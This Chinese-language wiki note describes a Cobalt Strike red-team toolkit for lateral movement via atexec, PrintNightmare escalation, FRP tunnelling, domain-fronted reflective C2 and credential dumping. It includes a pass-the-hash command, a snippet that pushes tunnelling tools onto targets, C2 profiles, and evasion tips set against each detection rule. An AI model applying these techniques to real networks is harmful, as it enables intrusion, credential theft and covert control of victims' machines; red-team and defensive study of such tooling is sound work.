


## 概述

**0x727 Cobalt Strike Aggressor Script 工具包** 是 0x727 安全团队开源的红队实战工具集，基于 Cobalt Strike Aggressor Script 标准构建，集成了 **Mimikatz 凭证导出、Bloodhound 域信息收集、FRP 代理隧道、PrintSpooler 提权、atexec 横向移动、SpawnReflectiveC2 域前置 C2 派生** 等核心功能模块。该工具包通过单一 CNA 文件加载即可在 Cobalt Strike 客户端提供图形化菜单入口，显著降低红队实战中的操作门槛与脚本维护成本。

> **定位**：面向实战红队的「开箱即用」Cobalt Strike 能力扩展包，聚焦 **初始访问后的横向移动、权限提升、隧道建立、凭证窃取** 全链路自动化。

## 核心功能模块深度解析

### atexec 横向移动实现

**atexec** 基于任务调度服务（Task Scheduler）通过 `at` 命令或 `SchRpc` 接口在远程主机执行命令，属于 **SMB 协议族横向移动** 技术的一种变体。

#### 技术原理
| 维度 | 说明 |
|------|------|
| **协议依赖** | SMB (445/TCP) + RPC (动态端口) |
| **认证方式** | NTLM/Kerberos，支持 Pass-the-Hash |
| **执行载体** | `at.exe` (已弃用) / `schtasks.exe` / `ITaskScheduler` COM 接口 |
| **产物残留** | 远程主机 `%SystemRoot%\Tasks\` 临时任务文件、事件日志 (Event ID 4698/4702) |
| **权限需求** | 目标主机 Admin$ 共享访问权限、任务调度服务运行中 |

#### 0x727 实现特点
- **集成化调用**：Aggressor Script 封装 `atexec` 命令，支持 Beacon 会话右键菜单直接发起
- **凭证复用**：自动读取当前 Beacon 上下文的 Token/Hash，无需手工指定
- **输出回显**：通过命名管道或临时文件回传命令执行结果
- **清理机制**：执行后自动删除计划任务，降低痕迹残留


#### 实战参数示例
```bash
# CS 控制台执行
atexec TARGET_HOST "whoami /all"

# 支持 Hash 传递
atexec /user:Administrator /pth:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0 TARGET_HOST "cmd.exe /c ..."
```

> **交叉引用**：[[internal-network-pivoting-techniques#atexec-横向移动实现细节]]、[[xd-security-internal-network-penetration-notes-day65-66#impacket-atexec]]、[[mimikatz-sekurlsa-pth-internals#pass-the-hash-内存补丁实现]]

---

### PrintSpooler 打印机提权利用链

**PrintSpooler (PrintNightmare/CVE-2021-34527 及变种)** 利用打印后台处理程序服务的 RPC 接口缺陷，实现 **本地提权 (LPE)** 或 **远程代码执行 (RCE)**。

#### 攻击面拆解
| 漏洞类型 | CVE编号 | 利用条件 | 影响版本 | 核心利用点 |
|----------|---------|----------|----------|------------|
| **远程代码执行** | CVE-2021-1675 / CVE-2021-34527 | 打印服务开启、RPC 可达、有效凭证 | Windows 全版本 (含 Server 2019/2022) | `RpcAddPrinterDriverEx()` 驱动加载绕过 |
| **本地提权** | CVE-2021-34481 / 后续变种 | 低权限用户上下文、打印服务运行 | 补丁不全的系统 | 符号链接/目录遍历写入恶意 DLL |

#### 0x727 工具包集成方式
- **一键化利用**：菜单项 `PrintSpooler Exploit` 直接触发，内置多版本 EXE/DLL 载荷
- **自适应架构**：自动识别目标系统位数 (x86/x64) 选择对应 Payload
- **载荷定制**：支持 Cobalt Strike Beacon Shellcode、自定义 DLL、命令执行三种模式
- **回显通道**：利用命名管道或 HTTP 回连 CS Team Server

#### 利用流程图解


#### 实战注意事项
1. **补丁绕过**：微软 KB5004945 等补丁限制 `RpcAddPrinterDriverEx` 远程调用，需结合 **本地提权变种** 或 **打印服务配置不当 (允许非管理员安装驱动)**
2. **驱动签名**：64 位系统要求驱动签名，工具包内置绕过方案 (测试模式、自签名证书、利用合法签名驱动劫持)
3. **防护对抗**：
   - 关闭 Print Spooler 服务 (`net stop spooler`)
   - 组策略禁用 `Allow Print Scripts` / 限制驱动安装权限
   - 监控 Event ID 316 (驱动加载)、808 (Print Spooler 启动)

> **交叉引用**：[[process-injection-tampering-techniques#打印后台处理程序劫持]]、[[memory-scanning-tools-evasion-techniques#dll注入检测对抗]]、[[ppl-injection-createprocess-bof-fix#系统服务注入场景]]

---

### FRP 一键配置代理功能

**FRP (Fast Reverse Proxy)** 是工具包集成的核心隧道组件，提供 **反向代理 + SOCKS5 代理** 双模式，支持 **多级级联**、**TCP/UDP 穿透**、**Web 服务转发**。

#### 架构集成设计
```
+------------------+     FRP 协议      +------------------+
|  Cobalt Strike   | <----------------> |   目标内网跳板    |
|  Team Server     |   (frps/frpc)      |   (frpc 客户端)   |
+------------------+                    +------------------+
        |                                        |
        | SOCKS5 1080                            | 插件模式
        v                                        v
+------------------+                    +------------------+
|  Proxychains /   |                    |  内网资源访问     |
|  Nmap / SQLMap   |                    |  (RDP/SMB/HTTP)  |
+------------------+                    +------------------+
```

#### 一键配置实现细节
| 配置项 | 自动化处理 | 说明 |
|--------|------------|------|
| **frps 服务端** | 预置配置模板，自动生成 `frps.ini` 并启动 | 监听 `bind_port=7000`、`vhost_http_port=8080` |
| **frpc 客户端** | Beacon 执行上传、配置渲染、后台运行 | `plugin=socks5`、`remote_port=1080` |
| **证书管理** | 可选 TLS 加密 (`tls_enable=true`) | 对抗流量检测 |
| **多级级联** | 支持 `proxy_protocol_version=v2` 透传真实 IP | 适配多层内网环境 |

#### Aggressor Script 调用接口
```nasl
# 菜单入口
popup FRP Proxy {
    item "Start FRP Server (TeamServer)" => frp_start_server
    item "Deploy FRP Client (Target)"    => frp_deploy_client
    item "Show SOCKS5 Proxy Info"        => frp_show_proxy
    item "Stop FRP Client"               => frp_stop_client
}

# 核心函数示例
frp_deploy_client = {
    local('$bid $arch $frpc_url $config');
    $bid = $1;
    $arch = getarch($bid);  # x86/x64 自适应
    $frpc_url = "http://$localip:8000/frpc_$arch";
    $config = frp_gen_client_config($bid);
    # 上传 frpc + frpc.ini -> 后台运行 -> 建立 SOCKS5
}
```

#### 实战组合拳
| 场景 | 组合技术 | 效果 |
|------|----------|------|
| **深层网段渗透** | FRP SOCKS5 + Proxychains + Nmap/MSF | 全工具链透明代理化 |
| **Web 管理控制台访问** | FRP TCP 反向代理 (`type=tcp`, `local_port=7001`) | 直接访问内网 WebLogic/JBoss/路由器后台 |
| **多跳板级联** | Jump1(frpc) → Jump2(frpc) → Target | 突破多层网络隔离 |
| **应急响应规避** | FRP + TLS + 域名前置 (CDN) | 隐匿 C2 基础设施真实 IP |

> **交叉引用**：[[frp内网渗透应用#四大典型应用场景]]、[[internal-network-pivoting-techniques#frp-高性能反向代理]]、[[c2-redirectors-malleable-c2-profiles#域名前置与-cdn-隐匿技巧]]、[[shiro-internal-penetration-case-study#frp-反向-socks5-代理部署]]

---

### SpawnReflectiveC2：反射式 DLL 注入派生域前置 C2

**SpawnReflectiveC2** 是工具包的高阶模块，利用 **反射式 DLL 注入 (Reflective DLL Injection, RDI)** 技术，在目标进程内存中加载 Cobalt Strike Beacon DLL，并配合 **域前置** 技术将 C2 流量伪装为合法 CDN/云服务流量。

#### 技术栈拆解
| 层级 | 技术组件 | 作用 |
|------|----------|------|
| **加载器** | Reflective Loader (Stephen Fewer 实现或变种) | 无文件落地加载 Beacon DLL，解析导入表、重定位、TLS 回调 |
| **注入向量** | `CreateRemoteThread` / `NtCreateThreadEx` / `QueueUserAPC` / `Thread Hijacking` | 目标进程代码执行入口 |
| **C2 通信** | Malleable C2 Profile + Domain Fronting | 流量特征混淆 + 域名前置隐匿真实 Team Server |
| **进程伪装** | `spawnto` 指定合法进程 (werfault.exe, dllhost.exe 等) | 降低 EDR 进程行为告警概率 |

#### 域前置原理与配置
```
Client (Beacon) → CDN Edge (cloudflare.front.com) → Host Header: teamserver.c2.domain → Origin (Team Server)
```
- **前置域名**：高信誉 CDN 域名 (CloudFront、Cloudflare、Azure CDN 等)
- **后端路由**：CDN 根据 `Host` 头将流量转发至真实 Team Server
- **证书复用**：利用 CDN 托管的合法 TLS 证书，流量外观与正常 HTTPS 无异

#### 0x727 实现亮点
1. **Aliyun C2 反射 DLL 更新** (2020/07/10)：针对阿里云 CDN 优化的域前置配置
2. **跨架构支持**：x86/x64 双模式 Loader，兼容 Cobalt Strike 4.0 进程位数判断问题
3. **内存权限伪装**：加载后将代码段设为 `RX`、数据段 `RW`，规避内存扫描
4. **配置外置**：Profile 与 Loader 分离，支持动态更新 C2 域名/端口/证书

#### 实战部署流程
```bash
# 1. Team Server 配置 Malleable Profile (域前置)
http-get {
    set uri "/api/v1/health";
    client {
        header "Host" "cdn.high-reputation.com";
    }
    server {
        header "Server" "nginx";
    }
}

# 2. 生成 Reflective Loader + Beacon DLL
# 3. 目标主机执行 SpawnReflectiveC2 (通过 Aggressor Script 菜单)
# 4. Beacon 在伪装进程中上线，流量经 CDN 中转
```

> **交叉引用**：[[aceldr-technical-analysis#反射式加载器-rdi-srdi-donut-pe2shc]]、[[cobalt-strike-external-c2-smb-beacon#spawnreflectivec2-反射-dll-注入实现域前置-c2-派生]]、[[c2-redirectors-malleable-c2-profiles#域名前置与-cdn-隐匿技巧]]、[[argument-spoofing-edr-evasion#进程创建监控对抗]]

---

### 辅助功能模块

| 模块 | 功能描述 | 实战价值 |
|------|----------|----------|
| **Mimikatz 系列** | Hash传递、DcSync、黄金票据、Skeleton Key、Token 操作 | 域环境凭证全生命周期掌控 |
| **Procdump + Lazagne** | LSASS 内存转储、浏览器/Navicat/数据库密码提取 | 多源凭证聚合收集 |
| **Bloodhound (PS/C#)** | 域信息收集 (用户/组/ACL/GPO/信任关系) | 攻击路径图谱化分析 |
| **钉钉机器人告警** | 跨平台 (macOS/Windows/Linux) Beacon 上线/下线实时通知 | 红队协作态势感知 |

---

## 工具链集成与实战工作流

### 标准化红队作业流


### 典型组合技战术表
| 战术阶段 | 核心模块 | 配合技术 | 规避重点 |
|----------|----------|----------|----------|
| **凭证获取** | Mimikatz DcSync / Procdump | Pypykatz / LSASS 保护绕过 | 内存扫描规避、ETW 绕过 |
| **横向移动** | atexec / SMB Beacon | Pass-the-Hash / Kerberoasting | 事件日志清理、管道命名伪装 |
| **权限提升** | PrintSpooler / Token 窃取 | 饱和攻击 (Potato 族) | 补丁级别侦察、服务配置枚举 |
| **隧道建立** | FRP SOCKS5 / SSH 隧道 | 多级级联 / TLS 加密 | 流量指纹混淆、CDN 前置 |
| **C2 隐匿** | SpawnReflectiveC2 / Malleable Profile | 域前置 / 重定向器链 | TLS 指纹伪造、心跳间隔抖动 |

---

## 检测与对抗视角

### 主机层检测规则 (Sigma/EDR)
| 行为特征 | 检测规则示例 | 规避建议 |
|----------|--------------|----------|
| **计划任务创建/删除高频** | Event ID 4698/4702 短时密集 | 复用现有任务、WMI 事件订阅替代 |
| **Print Spooler 加载非签名 DLL** | Event ID 316 + 文件路径异常 | 利用合法签名驱动劫持、内存加载 |
| **frpc/frps 进程运行** | 进程名/哈希/命令行特征匹配 | 重命名、内存执行、签名伪造 |
| **Reflective Loader 内存特征** | RWX 内存区域、无磁盘对应模块 | Sleep Mask、模块隐藏、权限最小化 |
| **域前置流量特征** | SNI 与 Host 头不一致、CDN IP 关联 | 合法域名轮换、流量拆分、协议栈重构 |

### 网络层流量特征
| 协议 | 特征指纹 | 对抗手段 |
|------|----------|----------|
| **FRP** | 固定魔数 `0x12345678`、心跳包明文 | `tls_enable=true`、自定义协议封装 |
| **SMB Beacon** | 命名管道 `msagent_*`、SMB 会话建立 | 管道名随机化、P2P 模式替代集中式 |
| **DNS Beacon** | 高熵子域名、TXT/NULL 记录滥用 | 域名算法生成 (DGA)、合法域名复用 |
| **HTTP/S Beacon** | Malleable Profile 可定制 | 完美模拟合法应用 (Teams/Outlook/浏览器) |

> **深度参考**：[[named-pipe-smb-detection-sysmon#检测策略与缓解措施]]、[[iox-proxy-protocol-evasion#协议栈重构对抗]]、[[memory-scanning-tools-evasion-techniques#内存扫描工具检测原理与对抗]]、[[c2-redirectors-malleable-c2-profiles#流量混淆配置要点]]

---

## 部署与使用指南

### 环境要求
- Cobalt Strike 4.x (推荐 4.5+)
- Team Server 与 Client 网络互通
- 目标环境：Windows 7/10/11、Server 2008R2-2022
- 依赖工具：`frp`、`mimikatz`、`bloodhound`、`procdump` 等 (工具包内置或自动下载)

### 加载方式
```bash
# 1. 克隆仓库
git clone https://github.com/0x727/0x727-CobaltStrike-AggressorScript.git

# 2. Cobalt Strike 客户端加载
# Script Manager -> Load -> 选择 0x727.cna

# 3. 验证菜单生成
# 右键 Beacon 会话 -> 0x727 Toolkit -> 所有功能项可见
```

### 核心配置文件 (`0x727_config.ini`)
```ini
[FRP]
frps_port = 7000
frps_dashboard_port = 7500
frps_token = "strong_random_token"
socks5_port = 1080
tls_enable = true

[DOMAIN_FRONTING]
cdn_domain = "d123.cloudfront.net"
teamserver_host = "teamserver.real.domain"
profile_path = "./profiles/domain_fronting.profile"

[PRINTSPOOLER]
exploit_binary_x86 = "./bins/PrintSpooler_x86.exe"
exploit_binary_x64 = "./bins/PrintSpooler_x64.exe"
payload_type = "beacon_shellcode"  # beacon_shellcode/custom_dll/command

[ATEXEC]
default_method = "schtasks"  # at/schtasks/com
cleanup = true
```

---

## 版本演进与更新日志

| 版本/日期 | 核心更新 | 实战意义 |
|-----------|----------|----------|
| **2020/01/08** | Mimikatz 全套、Hash传递、DcSync、黄金票据、Token操作 | 域环境凭证掌控基石 |
| **2020/01/08** | FRP 一键代理、Navicat/浏览器密码提取 | 隧道建立与凭证收集自动化 |
| **2020/07/07** | **PrintSpooler 提权、atexec 横向移动、elevate.cna 整合、SpawnReflectiveC2、钉钉机器人重写** | **核心横向/提权/隐匿能力成型** |
| **2020/07/10** | Aliyun C2 反射 DLL 更新 | 云厂商 CDN 域前置适配 |
| **2020/03/11** | 钉钉机器人提醒 | 团队协作态势感知 |

---

## 知识图谱导航

```mermaid
graph TD
    A[0x727 CS Aggressor Script 工具包] --> B[核心模块]
    A --> C[实战工作流]
    A --> D[检测对抗]
    A --> E[配置部署]
    
    B --> B1[atexec 横向移动]
    B --> B2[PrintSpooler 提权]
    B --> B3[FRP 一键代理]
    B --> B4[SpawnReflectiveC2 域前置]
    B --> B5[Mimikatz/Bloodhound/Lazagne]
    
    C --> C1[凭证获取]
    C --> C2[横向移动]
    C --> C3[权限提升]
    C --> C4[隧道建立]
    C --> C5[C2 隐匿]
    
    D --> D1[主机层检测规则]
    D --> D2[网络层流量特征]
    D --> D3[规避建议]
    
    B1 --> F1[[internal-network-pivoting-techniques#atexec-横向移动实现细节]]
    B1 --> F2[[xd-security-internal-network-penetration-notes-day65-66#impacket-atexec]]
    B2 --> F3[[process-injection-tampering-techniques#打印后台处理程序劫持]]
    B3 --> F4[[frp内网渗透应用#四大典型应用场景]]
    B3 --> F5[[shiro-internal-penetration-case-study#frp-反向-socks5-代理部署]]
    B4 --> F6[[aceldr-technical-analysis#反射式加载器-rdi-srdi-donut-pe2shc]]
    B4 --> F7[[cobalt-strike-external-c2-smb-beacon#spawnreflectivec2-反射-dll-注入实现域前置-c2-派生]]
    B4 --> F8[[c2-redirectors-malleable-c2-profiles#域名前置与-cdn-隐匿技巧]]
    B5 --> F9[[mimikatz-sekurlsa-pth-internals#pass-the-hash-内存补丁实现]]
    B5 --> F10[[mimikatz-source-code-architecture-golden-ticket-audit]]
    
    D1 --> G1[[named-pipe-smb-detection-sysmon#检测策略与缓解措施]]
    D2 --> G2[[iox-proxy-protocol-evasion#协议栈重构对抗]]
    D3 --> G3[[memory-scanning-tools-evasion-techniques#内存扫描工具检测原理与对抗]]
```



---

## 快速参考卡片

| 任务 | 菜单路径 | 关键参数 | 适用场景 |
|------|----------|----------|----------|
| **atexec 执行命令** | Beacon 右键 → 0x727 → Lateral Movement → atexec | 目标主机、命令、可选凭证/Hash | 域环境横向、计划任务执行 |
| **PrintSpooler 提权** | Beacon 右键 → 0x727 → Privilege Escalation → PrintSpooler | 目标架构 (x86/x64)、Payload 类型 | 打印服务开启、补丁不全系统 |
| **FRP 部署 SOCKS5** | Beacon 右键 → 0x727 → Proxy → Deploy FRP Client | 自动渲染配置、后台运行 | 深层网段渗透、全工具代理化 |
| **FRP 启动服务端** | 脚本控制台 → 0x727 → FRP → Start Server | 预置配置、Dashboard 可视化 | 团队协作、多跳板管理 |
| **SpawnReflectiveC2 派生** | Beacon 右键 → 0x727 → C2 → SpawnReflectiveC2 | 伪装进程、Profile、域前置域名 | 高隐蔽持久化、流量混淆 |
| **Mimikatz DcSync** | Beacon 右键 → 0x727 → Credentials → DcSync | 域控制器、目标用户 | 域管理员权限、krbtgt Hash 获取 |
| **Bloodhound 收集** | Beacon 右键 → 0x727 → Recon → Bloodhound (C#/PS) | 收集模式、输出路径 | 攻击路径分析、ACL 梳理 |
| **钉钉告警配置** | 脚本控制台 → 0x727 → Notify → DingTalk Config | Webhook URL、Secret | 团队协作、实时上线感知 |

---

## 延伸阅读与资源

- **0x727 官方仓库**：https://github.com/0x727/0x727-CobaltStrike-AggressorScript
- **Cobalt Strike Aggressor Script 官方文档**：https://www.cobaltstrike.com/help-aggressor-script
- **Reflective DLL Injection 白皮书**：https://github.com/stephenfewer/ReflectiveDLLInjection
- **FRP 官方文档**：https://gofrp.org/docs/
- **PrintNightmare 漏洞分析**：https://www.microsoft.com/security/blog/2021/07/08/printnightmare-vulnerability/
- **域前置技术演进**：https://www.mandiant.com/resources/blog/domain-fronting
- **内网渗透技术体系总览**：[[internal-network-pivoting-techniques]]
- **Shiro RCE 实战案例 (含 FRP/atexec/PrintSpooler 组合)**：[[shiro-internal-penetration-case-study]]
- **C2 基础设施隐匿深度解析**：[[c2-redirectors-malleable-c2-profiles]]
- **PE 不落地执行技术全景**：[[aceldr-technical-analysis]]
- **EDR 对抗框架对比**：[[inceptor-av-edr-evasion-framework]]

---

## 来源

- [0x727安全团队-202108-202110_01](../sources/0x727安全团队-202108-202110_01.md)
- [0x727开源安全团队-202108-202110_6](../sources/0x727开源安全团队-202108-202110_6.md)
